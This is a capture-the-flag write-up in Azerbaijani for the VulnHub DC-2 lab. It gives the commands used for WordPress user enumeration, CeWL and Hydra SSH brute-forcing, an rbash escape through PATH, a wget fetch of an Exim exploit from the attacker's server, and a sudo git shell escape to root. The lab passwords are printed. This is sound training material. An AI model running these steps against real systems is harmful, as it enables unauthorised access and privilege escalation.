# DC-2 CTF (VulnHub) - Writeup & Penetration Testing Report

## Təsvir (Description)
DC-2 laboratoriyası, real həyat ssenarilərinə əsaslanan və penetrasiya testi metodologiyalarını dərindən tətbiq etmək üçün hazırlanmış bir zəiflikli maşındır. Bu laboratoriyanın əsas məqsədi sistem daxilində gizlədilmiş 5 flag faylını tapmaq və addım-addım irəliyərək ən üst səlahiyyətli istifadəçi olan root imtiyazlarını əldə etməkdir (Privilege Escalation). Tapşırıq boyunca şəbəkə kəşfiyyatı, CMS analizi, xüsusi lüğətlərin formalaşdırılması, məhdudlaşdırılmış mühitlərin qırılması (rbash escape) və sudo hüquqlarından sui-istifadə mövzuları əhatə olunmuşdur.

---

## İstifadə Olunan Alətlər (Used Tools)
* Netdiscover - Yerli Şəbəkədə Aktiv Cihazların və Hədəf IP Ünvanının Aşkarlanması Aləti
* Nmap - Şəbəkə Skan Edilməsi, Açıq Portların və Xidmət Versiyalarının Təyini
* CeWL - Veb-sayt Məzmunundan Xüsusi Söz Siyahısı (Wordlist) Yaradıcısı
* WPScan - WordPress İnfrastrukturları Üçün İxtisaslaşmış Təhlükəsizlik Skaneri
* Hydra - Sürətli və Paralel Şəbəkə Girişi Brute-Forcer Aləti
* SSH Client - Sistemə Uzaqdan Əmr Sətri Bağlantısının Qurulması
* Vi / Git - Məhdudlaşdırılmış Shell (rbash) Escape və Səlahiyyətlərin Artırılması (Privilege Escalation) Alətləri

---

## Məlumat Toplanması və Siyahıyaalma (Information Gathering & Enumeration)

### Addım 0: Hədəf IP Ünvanının Tapılması (Netdiscover)
Sızma testinə başlamazdan əvvəl, eyni yerli şəbəkədə (LAN) olduğumuz hədəf maşının IP ünvanını müəyyənləşdirmək lazımdır. Bunun üçün ARP sorğularından istifadə edərək şəbəkədəki aktiv cihazları aşkarlayan Netdiscover alətini işə salırıq. Keçirilən passiv/aktiv şəbəkə kəşfiyyatı nəticəsində laboratoriya maşınının IP ünvanını dəqiqləşdiririk.

# Yerli şəbəkədəki aktiv hostları və hədəf IP-ni təyin etmək üçün icra olunan əmr:
sudo netdiscover -r 10.0.2.0/24



### Addım 1: Şəbəkənin Skan Edilməsi (Nmap)
Hədəf maşının (Netdiscover ilə tapdığımız IP-nin) şəbəkədəki giriş nöqtələrini və aktiv xidmətlərini müəyyən etmək üçün genişmiqyaslı Nmap skanı başladırıq. Şəbəkə skanı nəticəsində HTTP port 80-in açıq olduğunu, lakin veb serverin bizi birbaşa http://dc-2/ domen adına yönləndirdiyini (HTTP 302 Redirect) aşkar edirik. .

# Hədəf maşının bütün portlarını və xidmət versionlarını təyin etmək üçün icra olunan əmr:
nmap -sS -sV -O 10.0.2.15



### Addım 2: Hosts Faylının Konfiqurasiyası
Veb server bizi birbaşa domen adına yönləndirdiyi üçün Kali Linux brauzerimizin və avtomatlaşdırılmış skan alətlərimizin bu hostu tanımasını təmin etmeliyik. Bunun üçün sistemin daxili DNS IP həlletmə mexanizmini tənzimləmək məqsədilə /etc/hosts faylını açırıq və hədəf maşının IP ünvanı ilə dc-2 domen edini bura əlavə edərək yadda saxlayırıq.

#  DNS yönləndirməsini təmin etmək üçün hosts faylının redaktəsi:
sudo nano /etc/hosts



### Addım 3: Veb Platformanın Analizi və İlk İpucu (Flag 1)
Lokal DNS sazlanmasından sonra brauzerdə `http://dc-2/` ünvanına problemsiz daxil oluruq. Bizi qarşılayan səhifənin alt hissəsində və menyuda WordPress platformasına məxsus strukturları müşahidə edirik. Saytın daxili menyusunda yer alan və diqqət çəkən "Flag" bölməsinə keçid etdikdə, laboratoriyanın ilkin mərhələsi olan "Flag 1" mətnini uğurla aşkar edirik.



Bu bölmədəki mətni oxuduqda bizə növbəti hücum istiqaməti üçün çox kritik iki ipucu verilir:
1. *"Your usual wordlists probably won't work, so instead, maybe you just need to be cewl."* — Standart parol siyahılarının işə yaramayacağı və veb-saytın öz məzmunundan sözlər toplamaq üçün **CeWL** alətindən istifadə etməli olduğumuz vurğulanır.
2. *"Log in as one to see the next flag. If you can't find it, log in as another."* — Sistemdə birdən çox istifadəçinin olduğunu və növbəti flag-i görmək üçün fərqli hesablara giriş etməli olduğumuzu bildirir.

### Addım 4: Gizli Qovluqların və Səhifələrin Aşkarlanması (Gobuster)
Veb-saytın strukturunu daha dərindən anlamaq, gizli qovluqları və idarəetmə panellərini tapmaq üçün `Gobuster` aləti ilə Directory Brute-Force (qovluq sındırma) əməliyyatı başladırıq. Bu mərhələdə WordPress-in standart qovluq strukturlarını və digər gizli keçidləri siyahıya almaq hədəflənir.

# Gobuster ilə veb-sayt daxilindəki gizli qovluqların axtarılması:
gobuster dir -u http://dc-2/ -w /usr/share/wordlists/dirb/common.txt



Skan nəticəsində əldə edilən mühüm qovluqlar və onların analizi:
* `/wp-admin/` — WordPress idarəetmə panelinin əsas giriş mühiti (HTTP 302 Redirect).
* `/wp-login.php` — İstifadəçi və idarəçilərin sistemə autentifikasiya olunması üçün rəsmi giriş səhifəsi.
* `/wp-content/` — Mövzuların, plaginlərin və yüklənən şəkillərin saxlandığı daxili qovluq.

Bu tapıntılar Flag 1-də bizə verilən *"Log in as one to see the next flag"* (Daxil ol ki, növbəti flag-i görəsən) təlimatını yerinə yetirmək üçün məhz haraya müraciət etməli olduğumuzu rəsmi olaraq təsdiqləyir. Növbəti mərhələdə bu giriş panellərindən istifadə etmək üçün istifadəçi adları və parolları təyin etməliyik.














### Addım 5: WPScan ilə İstifadəçi Siyahıyaalması (Enumeration) və Flag 2-nin Tapılması

Veb-saytın WordPress infrastrukturunda işlədiyini nəzərə alaraq, mövcud istifadəçi adlarını və potensial zəiflikləri aşkarlamaq üçün `WPScan` alətini birbaşa hədəf IP ünvanı üzərindən başladırıq:

# İlk icra olunan əmr:
wpscan --url http://10.0.2.15/ --enumerate u

Lakin bu mərhələdə WPScan hədəf saytın bizi `http://dc-2/` domen adına yönləndirdiyini (302 Redirect) bildirərək skan prosesini dayandırır (Scan Aborted).



Bu problemi həll etmək üçün terminalın bizə təklif etdiyi köməkçi parametrlərdən istifadə edirik. `--ignore-main-redirect` bayrağını səhv daxil etdikdə alət bizə düzgün sintaksisi xatırladır. Nəhayət, əmri aşağıdakı kimi tənzimləyərək skanı uğurla yenidən başladırıq:

# Yönləndirmə xətasını keçmək üçün icra olunan əmr:
wpscan --url http://10.0.2.15/ --enumerate u --ignore-main-redirect



Skan prosesi yenidən uğursuz olur, daha sonra yenidən düzəliş olunaraq skan olunur.




Daha dərin analiz apardıqda, WordPress mövzusunun (`twentyseventeen`) daxilindəki `README.txt` faylı vasitəsilə sistemin **WordPress 4.7.10** versiyasında işlədiyini dəqiqləşdiririk.



Skanın ən kritik hissəsində WPScan, WordPress-in daxili `wp-json` API resursundan sui-istifadə edərək (`/wp-json/wp/v2/users`) sistemdə qeydiyyatdan keçmiş bütün aktiv istifadəçi adlarını siyahıya alır.Brauzerdə rəsmi olaraq `http://dc-2/index.php/wp-json/wp/v2/users` ünvanına daxil olduqda, API tərəfindən geri qaytarılan JSON datası daxilində sistemdəki 3 real istifadəçini vizual olaraq təsdiqləyirik:
* **admin** (ID: 1)
* **jerry** (Jerry Mouse - ID: 3)
* **tom** (ID: 2)



Aşkarlanan istifadəçilərin profil səhifələrini (məsələn, `author/admin/`) və veb-saytın daxili axtarış funksiyasını ("Flag" açar sözü ilə) yoxlayarkən, sistem bizi birbaşa növbəti mərhələnin hədəfinə yönləndirir.



Axtarış nəticələrində rəsmi olaraq **Flag 2** mətnini əldə edirik:
*"Flag 2: If you can't exploit WordPress and take a shortcut, there is another way. Hope you found another entry point."*

Bu mesaj bizə WordPress üzərindən birbaşa sistem sındırma (exploit) əməliyyatının hələlik mümkün olmadığını, lakin kəşfiyyat mərhələsində tapmadığımız hər hansısa başqa bir giriş qapısının olduğunu düşündürür.



Yenidən Nmap skanı edirik lakin bu səfər fərqli formada bütün portları yoxlayırıq və maraqlı bir hal ilə qarşılaşırıq.Hansı ki  bundan əvvəlki skanda  sadəcə 80 portu acıq görsendiyi halda  hal hazırda diger bir port 7744 portu acıq  görsənir.

nmap -p- 10.0.2.15



### Addım 6: CeWL ilə Wordlist Yaradılması və Hydra ilə SSH Brute-Force Hücumu

Flag 1 və Flag 2-dən əldə etdiyimiz ipucularına əsasən, standart lüğətlər yerinə hədəf saytın daxili məzmunundan xüsusi parollar siyahısı hazırlamaq üçün `CeWL` alətindən istifadə edirik:

# Veb-saytdakı sözləri toplayıb parollar siyahısı yaratmaq üçün icra olunan əmr:
cewl http://dc-2/ -w passwords.txt









Daha sonra əlimizdə olan real istifadəçi adlarını bir araya toplamaq üçün terminalda sürətli bir şəkildə hədəf istifadəçilər siyahısını yaradırıq:

# İstifadəçi adlarının fayla yazılması:
echo -e "tom\njerry\nadmin" > users.txt

Əlimizdə həm istifadəçi, həm də parol siyahısı olduğuna görə, skan zamanı aşkarladığımız standart olmayan SSH portuna hücum planlaşdırırıq. İlk cəhddə portu səhvən `7777` yazdıqda sistem bağlantını rədd edir (Connection refused). Səhvimizi düzəldərək düzgün port olan **7744** üzərindən `Hydra` alətini işə salırıq:

# Hydra ilə SSH xidmətinə qarşı brute-force əmri:
hydra -L users.txt -P passwords.txt ssh://10.0.2.15:7744 -t 4 -vV



Sürətli paralel yoxlamalardan sonra Hydra, `tom` istifadəçisi üçün düzgün parolu uğurla qırır:
* **İstifadəçi:** `tom`
* **Parol:** `parturient`



Bu etibarnamənin (credential) doğruluğunu yoxlamaq üçün brauzerdə WordPress idarəetmə panelinə (`/wp-admin/`) daxil oluruq və `tom` istifadəçisinin "Tom Cat" adı ilə sistemə uğurla giriş etdiyini vizual olaraq təsdiqləyirik.



---

### Addım 7: SSH Bağlantısı, Məhdudlaşdırılmış Shell (rbash) Problemi və Flag 3-ün Tapılması

İndi isə əldə etdiyimiz məlumatlarla hədəf maşına birbaşa əmr sətri (terminal) bağlantısı qurmaq üçün SSH müştərisindən istifadə edərək daxil oluruq:

# Standart olmayan port qeyd edilməklə SSH qoşulma əmri:
ssh tom@10.0.2.15 -p 7744

Uğurlu girişdən sonra daxil olduğumuz qovluqda `ls` əmrini icra etdikdə qarşımıza `flag3.txt` və bir `usr` qovluğu çıxır.



Lakin bu mərhələdə faylı oxumaq üçün standart terminal əmrlərini icra etməyə çalışdıqda ciddi bir problemlə qarşılaşırıq. Sistemdə təhlükəsizlik məqsədilə məhdudlaşdırılmış qabıq (**rbash - Restricted Bash**) aktiv edilib. `cat`, `more`, `cd` kimi əmrləri daxil etdikdə sistem `-rbash: command not found` və ya `restricted` xətası qaytarır. Hətta mühitdən çıxmaq üçün `shell` və ya `whoami` yazdıqda belə icraya icazə verilmir.



Bu məhdud mühiti (jail) qırmaq və əmrləri icra edilə bilən vəziyyətə gətirmək üçün cari terminal sessiyamızın ekosistemindəki `PATH` dəyişənini (Environment Variable) yenidən təyin etməliyik. Çünki mövcud mühit yalnız `tom/usr/bin` daxilindəki məhdud alətləri görməyə icazə verir. Sistemdəki əsas icra fayllarının yolunu terminala yenidən tanıdan əmri daxil edirik:

# rbash mühitini keçmək üçün PATH dəyişəninin yenidən ixracı:
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin



`PATH` uğurla tənzimləndikdən sonra terminalın əmr tanıma mexanizmi bərpa olunur. Vaxt itirmədən `cat` əmri ilə `flag3.txt` faylının məzmununu ekrana yazdırırıq və **Flag 3**-ü uğurla əldə edirik:

*"Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes."*



Bu flag bizə növbəti mərhələ üçün çox aydın bir hədəf göstərir: Sistem daxilində `su` (switch user) əmrindən istifadə edərək digər istifadəçiyə, yəni **jerry** hesabına keçid etməliyik.

### Addım 8: Jerry İstifadəçisinin Kəşfi, rbash Escape və Flag 4-ün Tapılması

Sistem daxilində imtiyaz artırma (Privilege Escalation) yollarını araşdırarkən `/home` qovluğunda `tom`dan başqa digər bir aktiv istifadəçinin — `jerry` qovluğunun da mövcud olduğunu təyin edirik. Eyni zamanda Flag 3-də qarşımıza çıxan *"Perhaps he should su for all the stress he causes"* mətni, bizə növbəti hədəf olaraq `su` (switch user) əmri vasitəsilə məhz `jerry` hesabına keçid etməli olduğumuzu aydın şəkildə göstərir.

Lakin biz tom'un qovluqları arasında gəzinərkən jerry qovluğu ilə rastlaşırıq.



Jerry olaraq sistemdə  hərəkət sərbəstliyi qazanırıq. Vaxt itirmədən onun ev qovluğuna (`/home/jerry`) keçid edərək daxildəki faylları siyahıya alırıq və flag-i oxuyuruq:

# Jerry-nin ev qovluğuna keçid və flag faylının oxunması:
cd /home/jerry
ls -la
cat flag4.txt



Uğurla oxunan **Flag 4** mətni:
*"Good turned into good. But you haven't finished yet, there's still more to find. See if you can find the final flag, it's the ultimate goal."*

Bu mesaj bizə laboratoriyanın son mərhələsinə çatdığımızı rəsmi olaraq bildirir. İndi qarşımızda duran ən son və ən kritik hədəf sistemdə root imtiyazlarını əldə etmək (Privilege Escalation) və Linux sisteminin ən üst səlahiyyətli nöqtəsinə sızmaqdır.

## Mərhələ 2: Tom İstifadəçisində İmtiyaz Artırma Axtarışları və Exim Maneəsi

### Addım 9: Sistem Daxili Xidmətlərin Siyahıyaalması və Exim-in Kəşfi
`tom` istifadəçisi ilə daxil olduqdan və rbash-ı qismən keçdikdən sonra, sistemdə local imtiyaz artırma (Privilege Escalation) yollarını araşdırmaq üçün arxa planda işləyən xidmətləri, proqramları və onların versiyalarını analiz edirik. Bu kəşfiyyat zamanı sistemdə yüksək səlahiyyətlə işləyən **Exim (Mail Transfer Agent)** xidmətinin mövcudluğunu aşkar edirik.

# Sistemdə işləyən Exim xidmətinin versiyasını dəqiqləşdirmək üçün icra olunan əmr:
exim --version



Terminal çıxışından dəqiqləşdiririk ki, hədəf maşında **Exim 4.89** versiyası işləyir.

---

### Addım 10: Səlahiyyət Artırma Boşluğunun (Local Privilege Escalation) Araşdırılması
Kali Linux terminalımıza keçid edərək, `Searchsploit` bazasında Exim 4.89 versiyasına aid hər hansı bir məlum imtiyaz artırma boşluğunun (exploit) olub-olmadığını sorğulayırıq. Bu versiyanın "Local Privilege Escalation" (CVE-2019-10149 - rəsmən *The Return of the Wizard* kimi tanınan) boşluğuna qarşı zəif olduğunu görürük.

# Kali daxilində Exim üçün uyğun exploitlərin axtarılması:
searchsploit exim 4.89



Tapılan uyğun shell skriptini (`.sh` formatlı exploit) local mühitimizə kopyalayırıq və hədəf maşına ötürmək üçün hazırlıq görürük.



---

### Addım 11: Exploitin Hədəf Maşına Köçürülməsi və Qarşılaşılan Problemlər
Kali Linux üzərində sürətli bir HTTP server (Python web server) açaraq, exploit faylını hədəf maşına yükləməyə çalışırıq:

# Kali-də serverin başladılması:
python3 -m http.server 80



Hədəf maşında (`tom` sessiyasında) isə bu faylı adətən yazıla bilən (writable) olan `/tmp` qovluğuna yükləmək üçün `wget` və ya `curl` əmrlərindən istifadə edirik:

# Hədəf maşında faylın çəkilməsi cəhdi:
wget http://10.0.2.X/46996.sh



**Bu mərhələdə başımıza gələn problemlər və maneələr:**
1. **İcazə Xətaları (Permission Denied):** `tom` istifadəçisinin sistemdəki bir çox qovluğa birbaşa fayl yazma (write) hüququ yoxdur. `/tmp` qovluğuna keçid etmək və ya orada fayl yaratmaq istəyərkən sistem maneələri ilə qarşılaşırıq.
2. **rbash-ın Təsiri:** Hər nə qədər `PATH` dəyişsə də, arxa planda işləyən məhdudiyyətlər bəzi skriptlərin icra olunmasına (Execution) mane olur. `chmod +x` edib skripti işə salmaq istədikdə terminal əmri tam olaraq icra etmir və ya yarıda kəsir.
3. **Exploitin Uğursuz Olması:** Skripti müəyyən bir qovluğa çəkib `sh 46996.sh` olaraq başlatmağa çalışdıqda, mühit dəyişənlərinin tam oturmamasından və ya Exim konfiqurasiyasının xüsusi olaraq bu istiqaməti bağlamasından dolayı root səlahiyyətinə yüksələ bilmirik və xətalar alırıq.



---

### Addım 12: Alternativ Yolların və İpucunun Yenidən Analiz Edilməsi
Exim üzərindən birbaşa root olmağa çalışarkən aldığımız bu xətalar və uğursuzluqlar bizə göstərir ki, sistem daxilində hələ mütləq root səviyyəsinə keçmək üçün hansısa bir mərhələni qaçırırıq və ya başqa bir istifadəçi mühitinə yönəlməliyik.









Seçilən exim 39535.sh  faylının hec bir köməyi dəymədiyi üçün eyni prosesi diger exim üzərində sınayırıq.



### Addım 12: Alternativ İstiqamət və Jerry Qovluğundan Flag 4-ün Tapılması

Exim xidməti üzərindən birbaşa root səlahiyyətinə yüksəlmək cəhdləri uğursuz olduqdan və rbash məhdudiyyətləri ilə qarşılaşdıqdan sonra, hücum istiqamətini dəyişərək sistemdəki digər istifadəçiləri və qovluq strukturlarını manual olaraq araşdırmağa qərar veririk. Bunun üçündə jerry istifadəçisinin qovluqlarına yenidən baxış keçiririk.

# Jerry istifadəçisinin qovluğuna keçid və faylların yoxlanılması:
cd jerry
ls



Qovluğun daxilində növbəti hədəfimiz olan `flag4.txt` faylının olduğunu vizual olaraq təsdiqləyirik. Heç bir əlavə imtiyaz artırma əməliyyatına ehtiyac qalmadan, `cat` əmri ilə faylın məzmununu birbaşa ekrana yazdırırıq:

# Flag 4-ün oxunması:
cat flag4.txt



Uğurla əldə edilən **Flag 4** mətni:
*"Good turned into good. But you haven't finished yet, there's still more to find. See if you can find the final flag, it's the ultimate goal."*

Bu mesaj bizə laboratoriyada hələ hər şeyin bitmədiyini və növbəti hədəfimizin rəsmi olaraq ən son nöqtə — final flag (root imtiyazları) olduğunu bildirir. Jerry qovluğundakı bu tapıntıdan sonra, növbəti mərhələdə sistemdə tam administrator hüququ qazanmaq üçün araşdırmalara davam edirik.

### Addım 13: Alternativ Vektor Sınağı — Yeni Shell Faylının Yüklənməsi Cəhdi və Uğursuzluq

Flag 4-ü oxuduqdan sonra, sistem daxilində veb server səviyyəsində bir əmr sətri (shell) açmaq üçün tam fərqli və yaradıcı bir hücum vektoru sınayırıq. Əlimizdə olan `tom` istifadəçisinin etibarnaməsi ilə WordPress idarəetmə panelinə (`/wp-admin/`) daxil oluruq.

Bu dəfə hədəfimiz, local mühitdə sıfırdan xüsusi bir **PHP Reverse Shell** faylı yaratmaq, onu WordPress-in media yükləmə və ya fayl əlavəetmə funksiyalarından istifadə edərək sistemə yükləməkdir. Beləliklə, fayla brauzer üzərindən müraciət edərək Kali Linux-umuza bağlantı ala biləcəyimizi hədəfləyirik.Zərərli PHP kodlarımızı ehtiva edən yeni shell faylını yükləmə panelinə əlavə edib sistemə yükləmə əmrini veririk.



**Qarşılaşdığımız Real Problem və Uğursuzluq:**
Faylı sistemə yükləməyə (upload) çalışarkən WordPress paneli rəsmi olaraq xəta mesajı qaytarır və faylın server yaddaşına yazılmasını tamamilə bloklayır (`Something went wrong` və ya icazə xətası).



* **Səbəb:** WordPress infrastrukturunda təhlükəsizlik məqsədilə `.php` genişlənməli faylların kənardan birbaşa yüklənməsinə (Arbitrary File Upload) qarşı ciddi bərkitmə (hardening) və filtrasiya tətbiq edilib. Eyni zamanda veb qovluqların icazələri (permissions) elə qurulub ki, kənardan yeni icra oluna bilən faylların yazılmasına icazə verilmir.Bu sınağın uğursuz olması bizə bir daha təsdiq edir ki, veb interfeys üzərindən sistemə sızmaq tamamilə qeyri-mümkündür. Root səlahiyyətlərinə doğru irəliləmək üçün yeganə çıxış yolumuz yenidən SSH əmr sətrinə qayıtmaq və terminal daxilində fərqli üsullar axtarmaqdır.

* ### Addım 14: Veb Konfiqurasiya Faylları (wp-config.php) və Verilənlər Bazasına (MySQL) Giriş Cəhdi (Uğursuz Cəhd)

WordPress panelindən fayl yükləmək cəhdimiz bloklandıqdan sonra diqqətimizi yenidən SSH terminalına yönəldirik. Sistem daxilində `rbash` məhdudiyyətləri səbəbindən birbaşa irəliləyə bilmədiyimiz üçün fərqli bir məlumat sızdırma (Data Leakage) vektoru sınayırıq. Veb serverin əsas qovluğuna və konfiqurasiya fayllarına baxmağa qərara gəlirik:

# WordPress-in əsas işçi qovluğuna keçid və faylların yoxlanılması:
cd /var/www/html
ls -la



Bu qovluğun daxilində WordPress-in bütün kritik sistem sazlamalarını və verilənlər bazası etibarnamələrini (Database Credentials) özündə saxlayan `wp-config.php` faylını analiz edirik. Faylın məzmununu oxuduqda daxildəki verilənlər bazasının (MySQL) giriş məlumatlarını uğurla əldə edirik.







Əldə etdiyimiz bu verilənlər bazası parolu ilə sistem daxilində local olaraq MySQL serverinə bağlanmaq və bəlkə də oradan administrator parollarını dəyişmək və ya sistem əmri tetiklemek üçün növbəti əmri daxil edirik:

# Sızdırılmış məlumatlarla MySQL-ə daxil olma cəhdi:
mysql -u wordpress -p

**Qarşılaşdığımız Real Problem və Uğursuzluq (Girişin Bloklanması):**
Parolu daxil edib bazaya sızmağa çalışarkən sistem bu əməliyyatımızı tamamilə dayandırır. 

* **Səbəb:** `tom` istifadəçisinin daxilində sıxışıb qaldığı **rbash (Restricted Bash)** mühiti `mysql` terminal müştərisinin (client) və daxili interaktiv proqramların birbaşa işlədilməsinə mane olur. rbash mühitində mütləq yollar və xarici tətbiqlər məhdudlaşdırıldığı üçün bazaya daxil olmaq səmərə vermir. Komanda ya icra olunmur, ya da verilənlər bazası mühiti bizi interaktiv shell-ə buraxmadan bağlantını kəsir.



Nəticə olaraq, veb konfiqurasiya fayllarından kritik verilənlər bazası məlumatlarını sızdırmağı bacarsaq da, mövcud terminal məhdudiyyətlərinə görə MySQL üzərindən sistemdə irəliləmək cəhdimiz tamamilə **uğursuzluqla nəticələnir və bazaya giriş edə bilmirik**.

### Addım 15: Hydra-nın Texniki Səhvinin Aşkarlanması, Jerry Keçidi və Final Flag-in Tapılması

Bütün bu fərqli və uğursuz keçid cəhdlərindən (WordPress shell upload, MySQL giriş sınaqları) sonra laboratoriya mühitini dərindən analiz edirik. İlk mərhələlərdə `Hydra` aləti ilə SSH xidmətinə qarşı keçirdiyimiz Brute-Force hücumunun nəticələrini və daxili loqları yenidən yoxlayırıq. 




Bu geniş araşdırma zamanı çox mühüm bir reallığın fərqinə varırıq: **Hydra ilk skan zamanı şəbəkə gecikməsi, thread (axın) sıxlığı və ya serverin reaksiyasındakı texniki bir xəta ucbatından `jerry` istifadəçisinin düzgün parolunu (`adipisicing`) tamamilə qaçırıb (false negative).** Alətin bu texniki xətası bizim uzun müddət fərqli və çətin dolanbac yollarla getməyimizə səbəb olub.



Daha sonra jerry istifadəci hesabına daxil oluruq.Jerry olaraq sistemdə irəlilədikdən sonra onun `sudo -l` (sudo hüquqları) imkanlarını yoxlayırıq və onun heç bir parol daxil etmədən (NOPASSWD) **`git`** alətini root səlahiyyətləri ilə işlədə biləcəyini görürük:

# Sudo hüquqlarının analizi:
sudo -l



`git` daxilində sənədləri oxumaq üçün arxa planda işləyən interaktiv interfeysi (`less` mühitini) tetikləmək üçün root adından köməkçi əmri başladırıq:

# Git köməkçi panelinin root adından çağırılması:
sudo git  help config 



Terminalın ən alt hissəsində gözləmə rejimi (`:`) aktiv olduqdan sonra, redaktordan çıxmadan birbaşa sistem qabığını (shell) root adından çağırmaq üçün `!/bin/sh` əmrini yazırıq:

!/bin/sh



Bu əmr bizi birbaşa mütləq administrator hüquqlu (`#`) əmr sətrinə yönləndirir. `whoami` və `id` əmrləri ilə `root` olduğumuzu rəsmi olaraq təsdiqləyirik. Vaxt itirmədən `/root` qovluğuna keçərək final flag-i ekrana yazdırırıq:

# Root qovluğuna keçid və sonuncu flag-in oxunması:
cd /root
cat final-flag.txt





---

## NƏTİCƏ VƏ ƏLDƏ EDİLƏN TƏCRÜBƏ (LESSONS LEARNED)

Bu penetrasiya testi laboratoriyası (DC-2) təkcə texniki zəifliklərin tapılması baxımından deyil, həm də bir təhlükəsizlik tədqiqatçısının metodologiyası üçün ən böyük dərslərdən birini verdi:

> **Qızıl Qayda:** Hücum və kəşfiyyat mərhələsində heç vaxt yalnız bir avtomatlaşdırılmış alətə (tool) mükəmməl dərəcədə güvənmək olmaz. Alətlər texniki, şəbəkə və ya proqram təminatı xətalarına görə kritik məlumatları (parolları, portları, zəiflikləri) qaçıra bilər. 

Əgər bir alətin nəticəsi ssenari ilə uyuşmursa və ya bizi çıxılmaz yola salırsa, hər zaman məlumatları manual olaraq yoxlamaq, loqları oxumaq və alternativ yolları sınaqdan keçirmək şərtdir. Bu tapşırıqda qarşılaşdığımız rbash maneələri, veb konfiqurasiya sızmaları və ən son Git Privilege Escalation metodologiyası real hədəflərdə qarşımıza çıxa biləcək zəncirvari hücum zəncirini anlamaq üçün mükəmməl bir təcrübə olmuşdur.
